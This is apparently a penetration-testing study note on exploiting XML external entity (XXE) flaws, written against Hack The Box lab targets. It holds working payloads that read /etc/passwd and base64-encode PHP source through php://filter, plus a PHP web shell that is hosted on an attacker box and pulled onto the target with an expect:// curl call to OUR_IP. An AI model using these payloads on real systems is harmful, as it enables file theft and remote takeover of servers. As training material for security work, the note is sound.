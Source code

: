 # Exploiting XXE

### Local File Disclosure&#x20;

This can be achieved when the web application accepts unfiltered XML input from a user. The user could potentially reference an external DTD document and define malicious XML entities. We can make these reference a local file, which would be displayed on screen when it is referenced if the XML data is used to display data on screen.

#### Identify/Detect:&#x20;

1. Look for web pages that accept XML input, by intercepting requests with burp suite.&#x20;
2. Check to see if content from the XML input is being displayed on screen anywhere. Note which XML element is being displayed, so we can know which element to inject in to.&#x20;
3. Attempt to define a new entity and then use as a variable in the email element, to see if it gets replaced with the defined value.&#x20;
   1. ```
      <!DOCTYPE email [
        <!ENTITY company "Inlane Freight">
      ]>
      ```
4. Attempt to use the newly defined variable in the input and see if it is displayed on screen.
   1.

       <figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
5. This would confirm that the application is vulnerable.&#x20;
6. Then we can test for file disclosure:&#x20;
   1.  ```
       <!DOCTYPE email [
         <!ENTITY company SYSTEM "file:///etc/passwd">
       ]>
       ```


   2.

       <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Reading Source Code

If possible, we should always attempt to gain access to the source code as this can allow us to discover more vulnerabilities in the application.

_**Important Note:**_ XML special characters in the file break the external entity reference, so if the file contains of of these: (<, >, &) we might need to use wrappers to access them. PHP has wrappers that will allow us to base64 encode the output, getting around the limitation.&#x20;

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```



### Remote Code Execution w/ XXE

You may be able to find an SSH key, or use a hash-stealing method on a windows server by making a call to our web server and catching the response with responder or smb server. If the application is running off of PHP, we may be able to execute command through PHP filters.&#x20;

Host a web shell on your attack box:&#x20;

```
Adam-162@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
Adam-162@htb[/htb]$ sudo python3 -m http.server 80
```

Then call it:&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

<sup>Note: We replaced all spaces in the above XML code with</sup> <sup></sup><sup>`$IFS`</sup><sup>, to avoid breaking the XML syntax. Furthermore, many other characters like</sup> <sup></sup><sup>`|`</sup><sup>,</sup> <sup></sup><sup>`>`</sup><sup>, and</sup> <sup></sup><sup>`{`</sup> <sup></sup><sup>may break the code, so we should avoid using them.</sup>

In modern versions of PHP, the expect module is not installed or enabled by default.&#x20;

### SSRF via XXE

SSRF (Server Side Request Forgery) can be used to enumerate local ports, access thier pages, access restricted web pages, etc.&#x20;
